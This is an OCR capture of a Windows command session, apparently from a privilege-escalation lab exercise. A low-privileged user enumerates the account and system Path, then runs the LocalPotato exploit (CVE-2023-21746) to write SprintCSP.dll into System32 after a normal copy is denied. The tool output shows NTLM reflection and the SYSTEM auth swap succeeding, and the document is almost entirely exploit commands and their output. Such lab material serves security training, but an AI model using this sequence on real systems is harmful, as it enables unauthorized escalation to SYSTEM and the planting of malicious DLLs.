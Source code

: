 Answer the questions below

```
C:\Users\user>net user user
User name                    user
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/16/2023 4:28:10 PM
Password expires             3/30/2023 4:28:10 PM
Password changeable          2/16/2023 4:28:10 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   3/6/2023 9:12:47 PM

Logon hours allowed          All

Local Group Memberships      *Remote Desktop Users *Users
Global Group memberships     *None
The command completed successfully.

C:\Users\user>reg query "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" -v Path

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment
    Path    REG_EXPAND_SZ    %SystemRoot%\system32;%SystemRoot%;%SystemRoot%\System32\Wbem;%SYSTEMROOT%\System32\WindowsPowerShell\v1.0\;%SYSTEMROOT%\System32\OpenSSH\;C:\Program Files\Amazon\cfn-bootstrap\

C:\Users\user>cd Desktop

C:\Users\user\Desktop>copy SprintCSP.dll C:\Windows\System32\SprintCSP.dll
Access is denied.
        0 file(s) copied.


C:\Users\user\Desktop>LocalPotato.exe -i SprintCSP.dll -o \Windows\System32\SprintCSP.dll


         LocalPotato (aka CVE-2023-21746)
         by splinter_code & decoder_it

[*] Objref Moniker Display Name = objref:TUVPVwEAAAAAAAAAAAAAAMAAAAAAAABGAQAAAAAAAAAnJl82zoWqTL0wQKeKvG7+AaAAAJACCA4biBh73PzUYSoAFAAHAEwAUAAAAAcAMQAwAC4AMQAwAC4AMgA0ADUALgAxADgAMwAAAAAACQD//wAAHgD//wAAEAD//wAACgD//wAAFgD//wAAHwD//wAADgD//wAAAAA=:
[*] Calling CoGetInstanceFromIStorage with CLSID:{854A20FB-2D44-457D-992F-EF13785D2B51}
[*] Marshalling the IStorage object... IStorageTrigger written: 100 bytes
[*] Received DCOM NTLM type 1 authentication from the privileged client
[*] Connected to the SMB server with ip 127.0.0.1 and port 445
[+] SMB Client Auth Context swapped with SYSTEM
[+] RPC Server Auth Context swapped with the Current User
[*] Received DCOM NTLM type 3 authentication from the privileged client
[+] SMB reflected DCOM authentication succeeded!
[+] SMB Connect Tree: \\127.0.0.1\c$  success
[+] SMB Create Request File: Windows\System32\SprintCSP.dll success
[+] SMB Write Request file: Windows\System32\SprintCSP.dll success
```